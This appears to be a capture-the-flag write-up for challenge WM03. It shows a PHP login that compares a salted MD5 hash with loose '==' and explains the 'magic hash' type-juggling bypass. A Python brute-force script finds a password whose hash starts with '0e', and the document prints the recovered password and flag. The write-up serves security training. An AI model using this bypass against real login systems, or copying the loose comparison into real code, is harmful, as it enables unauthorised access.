 # WM03
## BRIEFING
Visit the site at https://cfta-wm03.allyourbases.co and find a way to bypass the password check.

## Solution

The main page of the website asks us for a password to login:

<img src="wm03_login.png" width="350">

If we inspect the source code we discover the login function running on the back-end:

```php

        <!--
        TODO: remove, taken from OSS project, login contains:
        return function ($event) {
            require_once("flag.php");
            $hash = "0e747135815419029880333118591372";
            $salt = "e361bfc569ba48dc";
            if (isset($event['password']) && is_string($event['password'])) {
                if (md5($salt . $event['password']) == $hash) {
                    return $flag;
                }
            }
            return "Incorrect";
        };
        -->
```

This is a case of magic hashes, which take advantage of a loose equivalency check. That is, in PHP, the `$hash` value of `0e747135815419029880333118591372` will be interpreted as an integer, specifically 0 to the power of 747135815419029880333118591372 when being compared with `==` instead of `===`. The `===` would require strict string equivalency, but since the function uses `==`, our goal is to produce another hash that begins with `0e` and only contains digits thereafter, so that both hashes will be equal to 0 when compared via `==` and the function will evaluate to true, returning the flag.

We can write a python script to find such a password for us. We'll have to use the provided salt and append characters to it until we find a string that produces a magic hash via the `md5` function.

```py
import hashlib
import re
import random
import itertools

_rex = re.compile('^0+e\d*$')

starter = "e361bfc569ba48dc"
alphabetsoup = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()"

found = False
while not found:
    for j in range(50):
        for possible_password in itertools.permutations(alphabetsoup,j):
            temp = starter + ''.join(possible_password)
            check = hashlib.md5(temp).hexdigest()
            if _rex.match(check) != None:
                print "You're a hero"
                print "The password is: ", ''.join(possible_password)
                found = True
                break
        if found:
            break
```

Running the script, we get:
```console
root@osboxes:~/Downloads/wm03# python solve.py 
You're a hero
The password is:  cqZa
```

We enter `cqZa` as the password and get the flag. Note: There are many possible valid passwords, this was just the first one I found.

<img src="wm03_flag.png" width="350">

The flag is **theLOOSEtheMATH&theTRUTHY**.

